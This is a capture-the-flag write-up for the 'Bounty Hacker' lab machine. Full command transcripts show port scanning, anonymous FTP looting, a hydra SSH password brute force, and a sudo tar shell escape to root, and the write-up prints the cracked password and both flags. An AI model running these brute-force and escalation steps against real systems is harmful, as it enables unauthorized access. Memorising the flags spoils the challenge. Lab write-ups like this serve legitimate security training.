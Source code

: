 ### Bounty Hacker

#### Living up to the title.

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

Deploy the machine.

Find open ports on the machine

Who wrote the task list?
- lin

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.110.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 05:15 EDT
Nmap scan report for 10.10.110.227
Host is up (0.61s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.73.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.25 seconds

```

Upon checking the ftp server, we have listed 2 files below:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ ftp 10.10.110.227
Connected to 10.10.110.227.
220 (vsFTPd 3.0.3)
Name (10.10.110.227:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32186|)
ftp: Can't connect to `10.10.110.227:32186': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************************************************|    68      477.74 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.11 KiB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************************************************|   418       10.39 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (0.65 KiB/s)
ftp>
```

On task.txt, we can see the user who wrote the file:

![[Pasted image 20220819053322.png]]

On locks.txt, we can also see that it is a wordlist for potential bruteforce attack.

Webpage at port 80:

![](../../img/Pasted%20image%2020220824093825.png)

After enumerating those things, we can now proceed with brutefoce `lin` using hydra and the locks.txt wordlist:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ hydra -l lin -P ~/ken/MoonShine/CTF/Bounty_Hacker/locks.txt 10.10.110.227 ssh -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-19 05:27:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.110.227:22/
[22][ssh] host: 10.10.110.227   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-19 05:27:17
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ 

```


What is the user's password:
- RedDr4gonSynd1cat3

Login to lin using ssh to get the user.txt flag:

```

┌──(kali㉿kali)-[~]
└─$ ssh lin@10.10.110.227
The authenticity of host '10.10.110.227 (10.10.110.227)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.227' (ED25519) to the list of known hosts.
lin@10.10.110.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}


```

lastly, upon checking, we can see that user lin has privileges for root using the /bin/tar below:

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$
```

Looking at GTFObins documentation, we can see that tar can be exploited if user has sudo previleges (on sudo -l)

![](../../img/Pasted%20image%2020220824093848.png)

We can now perform the attack and capture the flag:

```
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# cat root/txt
cat: root/txt: No such file or directory
# cat root.txt
THM{80UN7Y_h4cK3r}
# 

```

END

